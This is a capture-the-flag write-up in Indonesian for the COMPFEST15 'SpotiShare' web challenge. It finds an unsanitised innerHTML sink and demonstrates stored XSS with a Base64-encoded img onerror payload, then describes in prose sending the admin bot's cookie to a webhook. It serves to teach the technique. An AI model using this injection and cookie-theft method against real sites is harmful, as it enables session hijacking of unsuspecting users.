

## Challenge Name: SpotiShare
>Category: Web Exploitation

>Points: 408

>Solves: 24

### Challenge Description: 

I made an app to share your spotify songs with friends! There is also an admin to judge your song choice. I don't like them though, they're really picky.

Flag is in admin's cookie.

http://34.101.174.85:10009/

Artifact Files:
-

### Approach

**1. Analyze the website?**

Mari kita coba buka websitenya

Hanya web tailwind standar dengan fitur input teks.

**2. Find Vulnerability**

Biasanya kalau ada text input gini, antara soal ```XSS```(Cross site scripting) , _Command Injection_, atau gak ```LFI``` (Local File Inclusion). Coba kita input asal:
```
wefuehgioehoigeri
```

Kita dapat notif bahwa URL Spotify invalid. Tapi apa kategori valid? coba kita lihat di developer mode


Terlihat bahwa input masukan harus memenuhi regex url track spotify. Coba kita cari url yang valid dari akun spotify ku.

Asal aja ya pake lagu nya yoasobi yg jadi OP Oshi No Ko. Coba kita masukkan. Berikut url nya:
```
https://open.spotify.com/track/7ovUcF5uHTBRzUpB6ZOmvt
```

Terlihat ada list lagu berserta url buat dikopas. List lagunya bisa diputar ternyata gais.

Hmm, coba kalau kita masukkan payload dimana url awalnya bener tapi trackId nya ngaco

Ternyata error. Oke sepertinya server akan melakukan verifikasi trackId ke spotify.

Aku penasaran apa yang terjadi jika minta review admin

Wih ke approve dong. Apa di belakang layar ada bot yang buka website terus nge acc? Hmm..kok curiga ini ```XSS```.

Ngomong-ngomong, ku penasaran sama link Admin Song. Coba kita buka yang ```Lily's```

Ternyata ini sistemnya kek submit lagu punya admin. Tunggu bentar, kalau kalian perhatikan, ketika kita pencet link daftar lagu admin, url nya makin panjang. Sepertinya data lagu nya disimpan di query param wwkwk.

Ku penasaran ini query param sebenarnya apa. Sekilas kok kayak ```Base64```...

Bener ternyata. Hasil decode ```Base64``` ini adalah sebuah ```object```.

Tadinya ku berpikir kita coba cek ```XSS``` dengan tambahin script yang sudah diencode ke base64, namun inget ini harus jadi objek formatnya gak bisa langsung append buat ```XSS```. 

Hmm..tapi ku penasaran, ini data dipake dimana aja...

Jadi setelah melihat source code, ternyata ada fungsi ini:
```
      function addSongToPage(artist, title, trackId) {
        const embedSrc = `https://open.spotify.com/embed/track/${trackId}?utm_source=generator&theme=0`;
        const dom = htmlToElement(SONG_HTML);
        dom.querySelector(".artist").innerHTML = artist;
        dom.querySelector(".title").innerHTML = title;
        dom.querySelector("iframe").src = embedSrc;
        dom.querySelector("button").addEventListener("click", function () {
          const iframe = this.parentElement.nextElementSibling;
          if (iframe.classList.contains("hidden")) {
            iframe.classList.remove("hidden");
          } else {
            iframe.classList.add("hidden");
          }
        });
        songsTable.insertAdjacentElement("beforeend", dom);

        addedSongs.push({
          title,
          artist,
          trackId,
        });
        trackIds.push(trackId);

        document.querySelector("#share-url").value = currentSongsLink();
      }
```
Jadi tiap object di data itu berisi nama artis, judul, dan trackId. Yang menarik disini ada di bagian ini:
```
const embedSrc = `https://open.spotify.com/embed/track/${trackId}?utm_source=generator&theme=0`;
const dom = htmlToElement(SONG_HTML);
dom.querySelector(".artist").innerHTML = artist;
dom.querySelector(".title").innerHTML = title;
dom.querySelector("iframe").src = embedSrc;
dom.querySelector("button").addEventListener
```
Dia langsung input data ke elemen dengan kelas ```.artist``` dan ```.title``` tanpa sanitasi, serta ngisi ```src``` attribute ke ```iframe``` tanpa disanitasi. Sepertinya ini celah yang bagus untuk ```XSS```.

Coba kita exploit attribute ```artist```. Tapi pertama-tama, coba kita decode data dari url.

Untuk hal ini, kita bisa menggunakan website bernama [CyberChef](https://gchq.github.io/CyberChef/), disini banyak sekali fitur converter data yang sangat berguna untuk CTF.
 
Coba kita lihat url sekarang:
```
http://34.101.174.85:10009/?data=W3sidGl0bGUiOiJBIExpdHRsZSBCaXJkIFRvbGQgTWUiLCJhcnRpc3QiOiJ0YXlvcmkiLCJ0cmFja0lkIjoiNXFkOWlrTlQwUVVCbkRtOFd5R3M2WiJ9LHsidGl0bGUiOiJTaW9uIiwiYXJ0aXN0IjoiSXNsZXQsIElzdWkiLCJ0cmFja0lkIjoiN2FpdkxSQ0lRV0pBVUw2c29OWHhtMSJ9LHsidGl0bGUiOiJZdWtpZG9rZSIsImFydGlzdCI6IklzbGV0LCBJc3VpIiwidHJhY2tJZCI6IjJyNDUxekpNTDhVM05pVGkyTXFBeGgifSx7InRpdGxlIjoiSG9zaGkgTmkgTmFydSIsImFydGlzdCI6IklzbGV0LCBJc3VpIiwidHJhY2tJZCI6IjBiQTNLYndLakdrdFBiNndpZ2xKN1EifSx7InRpdGxlIjoiRkFMTEVOIiwiYXJ0aXN0IjoiRUxGRU5TSsOzTiIsInRyYWNrSWQiOiI0aEZjSGpGdUJJR0laSUtWWVNFVkxtIn0seyJ0aXRsZSI6IuaageOCkuiRrOOCjOOBsCIsImFydGlzdCI6IkVMRkVOU0rDs04iLCJ0cmFja0lkIjoiMEt6Wm9jVk9yR2RqcHVuNGZ6dlZBUSJ9LHsidGl0bGUiOiJUw7hkZXN0cmllYiIsImFydGlzdCI6IlNlbm56YWkiLCJ0cmFja0lkIjoiN3hMUmZQcUNxOXNyZDdXQzNyVEF6TSJ9LHsidGl0bGUiOiJIb211cmEiLCJhcnRpc3QiOiJTZW5uemFpIiwidHJhY2tJZCI6IjRkOEFLQnRyaXJwdnBNajlMb3pKYVAifSx7InRpdGxlIjoiQkFORyEhISIsImFydGlzdCI6IkVHT0lTVCIsInRyYWNrSWQiOiI3amtUTmlCZTFzU3l3bER4S3RNUU9rIn0seyJ0aXRsZSI6IuacgOW%2BjOOBruiKseW8gSAoVGhlIG1lYW5pbmcgb2YgbG92ZSkiLCJhcnRpc3QiOiJFR09JU1QiLCJ0cmFja0lkIjoiMG9wUjk1Q2JjaVhFTWkzVEcwUUJ2ayJ9LHsidGl0bGUiOiJSRUZMRUNUIiwiYXJ0aXN0IjoiR2F3ciBHdXJhIiwidHJhY2tJZCI6IjBCOTZ6bjExZkEzYXBOR1pxRVJtUE8ifSx7InRpdGxlIjoiQ29sb3JzIiwiYXJ0aXN0IjoiTmFvLCBJc3VpIiwidHJhY2tJZCI6IjJtN2xubkxrT2x3cWZpVFBrZWNKUDcifV0%3D
```
Terlihat selain sekilas seperti ```Base64```, ada encoding special character seperti ```%3D```. Sekarang kita coba randang pipeline konversi:
 
Di web ini, kita bisa pilih fitur di sebelah kiri layar lalu di-_drag_ ke pipeline. Selain itu, ada fitur pencarian untuk membantu memudahkan mencari fitur.

Sekarang kita coba masukkan isi query param ```data``` ke kolom input lalu tekan ```BAKE!```.
 
Terlihat hasilnya ada di kolom sebelah kanan bawah. Berikut hasilnya:
```
[{"title":"A Little Bird Told Me","artist":"tayori","trackId":"5qd9ikNT0QUBnDm8WyGs6Z"},{"title":"Sion","artist":"Islet, Isui","trackId":"7aivLRCIQWJAUL6soNXxm1"},{"title":"Yukidoke","artist":"Islet, Isui","trackId":"2r451zJML8U3NiTi2MqAxh"},{"title":"Hoshi Ni Naru","artist":"Islet, Isui","trackId":"0bA3KbwKjGktPb6wiglJ7Q"},{"title":"FALLEN","artist":"ELFENSJóN","trackId":"4hFcHjFuBIGIZIKVYSEVLm"},{"title":"暁を葬れば","artist":"ELFENSJóN","trackId":"0KzZocVOrGdjpun4fzvVAQ"},{"title":"Tødestrieb","artist":"Sennzai","trackId":"7xLRfPqCq9srd7WC3rTAzM"},{"title":"Homura","artist":"Sennzai","trackId":"4d8AKBtrirpvpMj9LozJaP"},{"title":"BANG!!!","artist":"EGOIST","trackId":"7jkTNiBe1sSywlDxKtMQOk"},{"title":"最後の花弁 (The meaning of love)","artist":"EGOIST","trackId":"0opR95CbciXEMi3TG0QBvk"},{"title":"REFLECT","artist":"Gawr Gura","trackId":"0B96zn11fA3apNGZqERmPO"},{"title":"Colors","artist":"Nao, Isui","trackId":"2m7lnnLkOlwqfiTPkecJP7"}]
```
Ternyata ini array of object berisi di tiap _object_-nya: title, artist, dan trackId. Namun sayangnya pipeline kita tidak bisa melakukan decode unicode jadi banyak karakter acak.

Ku penasaran kalau kita tambah payload berikut apa yang terjadi:
```
{"title":"XXX","artist":"XXX","trackId":"dvervev"}
```
Kita tahu ```title``` langsung dimasukkan ke ```innerHTML``` yang mana akan menambahkan elemen tersebut. (Ku baru tahu trik ini setelah lihat hint di discord, karena ternyata by design, ```innerHTML``` gak bisa jalanin ```<script>``` )

Lalu untuk payload ini ku dapat dari post ini:

Nuhun buat **rorre** dan **DimasMaulana** buat _hint_-nya.

Also, dari hint ini ada repo berisi common payload buat [XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection).

Nah sekarang kita tambahkan payload ke json admin tadi lalu kita encode ke ```Base64``` dan di-_url encode_. Untuk melakukannya mirip, seperti saat decode, namun alurnya dibalik seperti ini:


Coba kita masukkan ke url menjadi:
```
http://34.101.174.85:10009/?data=W3sidGl0bGUiOiJBIExpdHRsZSBCaXJkIFRvbGQgTWUiLCJhcnRpc3QiOiJ0YXlvcmkiLCJ0cmFja0lkIjoiNXFkOWlrTlQwUVVCbkRtOFd5R3M2WiJ9LHsidGl0bGUiOiJTaW9uIiwiYXJ0aXN0IjoiSXNsZXQsIElzdWkiLCJ0cmFja0lkIjoiN2FpdkxSQ0lRV0pBVUw2c29OWHhtMSJ9LHsidGl0bGUiOiJZdWtpZG9rZSIsImFydGlzdCI6IklzbGV0LCBJc3VpIiwidHJhY2tJZCI6IjJyNDUxekpNTDhVM05pVGkyTXFBeGgifSx7InRpdGxlIjoiSG9zaGkgTmkgTmFydSIsImFydGlzdCI6IklzbGV0LCBJc3VpIiwidHJhY2tJZCI6IjBiQTNLYndLakdrdFBiNndpZ2xKN1EifSx7InRpdGxlIjoiRkFMTEVOIiwiYXJ0aXN0IjoiRUxGRU5TSsOzTiIsInRyYWNrSWQiOiI0aEZjSGpGdUJJR0laSUtWWVNFVkxtIn0seyJ0aXRsZSI6IuaageOCkuiRrOOCjOOBsCIsImFydGlzdCI6IkVMRkVOU0rDs04iLCJ0cmFja0lkIjoiMEt6Wm9jVk9yR2RqcHVuNGZ6dlZBUSJ9LHsidGl0bGUiOiJUw7hkZXN0cmllYiIsImFydGlzdCI6IlNlbm56YWkiLCJ0cmFja0lkIjoiN3hMUmZQcUNxOXNyZDdXQzNyVEF6TSJ9LHsidGl0bGUiOiJIb211cmEiLCJhcnRpc3QiOiJTZW5uemFpIiwidHJhY2tJZCI6IjRkOEFLQnRyaXJwdnBNajlMb3pKYVAifSx7InRpdGxlIjoiQkFORyEhISIsImFydGlzdCI6IkVHT0lTVCIsInRyYWNrSWQiOiI3amtUTmlCZTFzU3l3bER4S3RNUU9rIn0seyJ0aXRsZSI6IuacgOW%2BjOOBruiKseW8gSAoVGhlIG1lYW5pbmcgb2YgbG92ZSkiLCJhcnRpc3QiOiJFR09JU1QiLCJ0cmFja0lkIjoiMG9wUjk1Q2JjaVhFTWkzVEcwUUJ2ayJ9LHsidGl0bGUiOiJSRUZMRUNUIiwiYXJ0aXN0IjoiR2F3ciBHdXJhIiwidHJhY2tJZCI6IjBCOTZ6bjExZkEzYXBOR1pxRVJtUE8ifSx7InRpdGxlIjoiQ29sb3JzIiwiYXJ0aXN0IjoiTmFvLCBJc3VpIiwidHJhY2tJZCI6IjJtN2xubkxrT2x3cWZpVFBrZWNKUDcifSx7InRpdGxlIjoiWFhYPGltZyBzcmM9J2YnIG9uZXJyb3I9J2FsZXJ0KDEpJy8%2BIiwiYXJ0aXN0IjoiWFhYIiwidHJhY2tJZCI6ImR2ZXJ2ZXYifV0%3D
```
Lalu kita buka:

Ternyata benar ini bisa dijebol pake ```XSS```.

**3. Setup Webhook**

Seperti diberitahu di soal, flag nya ada di cookie bot admin review. Somehow kita perlu mendapatkannya via ```XSS```. Ku kepikiran caranya kita bikin payload injeksi ```xss``` yang sudah di encode ke ```Base64``` dan di-_url encoded_ kemudian kita kirimkan via ```Ask Admin Review```. Masalahnya, gimana kita bisa tahu _cookie_-nya? kan pesannya ketampil di client bot nya. 

Paling gampang sih kita setup server sendiri yang bisa nerima request get. Cuma karena ku mager + di hint discord disebut ada yang namanya webhook.

Setelah ku cari di internet, webhook tuh kek ya API Server juga intinya wkwkw cuma ternyata ada yang nyediain jasa webhook free trial macam https://webhook.site/. Disini, kita auto dapat url ke webhook kita tanpa login dan bayar.

Disini kita dapat url yang unik untuk setiap device. Jika kita buka url nya di tab baru.

Akan ada request baru yang muncul di panel berikut request param, details, dan query string. Dengan begini, kita bisa melihat flag-nya.

**4. Make Payload**

Setelah sudah menyiapkan webhook, tinggal kita buat _payload_-nya. Jadi idenya adalah, kita akan melakukan injeksi dengan mamasukkan elemen ```img``` dengan ```src``` yang kacau, dan karena url ```src``` tidak bisa di-_resolve_, maka akan memanggil fungsi ```onerror```, dimana pada fungsi ini, kita akan mengirimkan HTTP request ke webhook dengan query param yakni cookies admin. Ini hanyalah salah satu contoh payload ```XSS```, jika ingin melihat contoh lain, bisa dilihat [di sini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection).

Berikut payload yang akan kita inject:
```
[{"title":"A Little Bird Told Me","artist":"tayori","trackId":"5qd9ikNT0QUBnDm8WyGs6Z"},{"title":"Sion","artist":"Islet, Isui","trackId":"7aivLRCIQWJAUL6soNXxm1"},{"title":"Yukidoke","artist":"Islet, Isui","trackId":"2r451zJML8U3NiTi2MqAxh"},{"title":"Hoshi Ni Naru","artist":"Islet, Isui","trackId":"0bA3KbwKjGktPb6wiglJ7Q"},{"title":"FALLEN","artist":"ELFENSJóN","trackId":"4hFcHjFuBIGIZIKVYSEVLm"},{"title":"暁を葬れば","artist":"ELFENSJóN","trackId":"0KzZocVOrGdjpun4fzvVAQ"},{"title":"Tødestrieb","artist":"Sennzai","trackId":"7xLRfPqCq9srd7WC3rTAzM"},{"title":"Homura","artist":"Sennzai","trackId":"4d8AKBtrirpvpMj9LozJaP"},{"title":"BANG!!!","artist":"EGOIST","trackId":"7jkTNiBe1sSywlDxKtMQOk"},{"title":"最後の花弁 (The meaning of love)","artist":"EGOIST","trackId":"0opR95CbciXEMi3TG0QBvk"},{"title":"REFLECT","artist":"Gawr Gura","trackId":"0B96zn11fA3apNGZqERmPO"},{"title":"Colors","artist":"Nao, Isui","trackId":"2m7lnnLkOlwqfiTPkecJP7"},{"title":"XXX","artist":"XXX","trackId":"dvervev"}]
```
```WEBHOOK-ID``` diganti dengan ```WEBHOOK-ID``` kalian jika menggunakan [webhook.site](http://webhook.site). Kemudian, kita encode ke ```Base64```, lalu dilakukan encoding pada karakter khusus


**4. Get the Flag**

Terakhir, kita tinggal membuka tab baru dan mengetikkan url berikut:
```
http://34.101.174.85:10009/?data=[HASIL_ENCODING]
```
Dimana ```HASIL_ENCODING``` merupakan hasil encoding payload di halaman sebelumnya.

Di kita memang tidak terjadi apa-apa karena memang kita belum mengirimkan payload-nya ke bot admin. Sekarang kita tinggal tempel url payload tadi di kotak tambah lagi, lalu tekan ```Ask Admin Review```.


Karena ada tulisan sudah di approved, berarti sudah dibuka di halaman admin. Sekarang mari kita buka halaman wenbhook:

Alhamdulillah dapat _flag_-nya!
```
COMPFEST15{N3veR_tRUst_4nyth1Ng_e903bbdb87a24d181971072e466374a88b50281e62ae1570d06490d3068d4bd2}
```

### Reflections
Permulaan menarik untuk belajar ```XSS``` dan setup ```webhook``` untuk mencuri kue (cookie). Ya meski sempat stuck beberapa hari karena salah tempat buat nyari celah ```XSS```-nya.
  

---
[Back to home](../Readme.md)
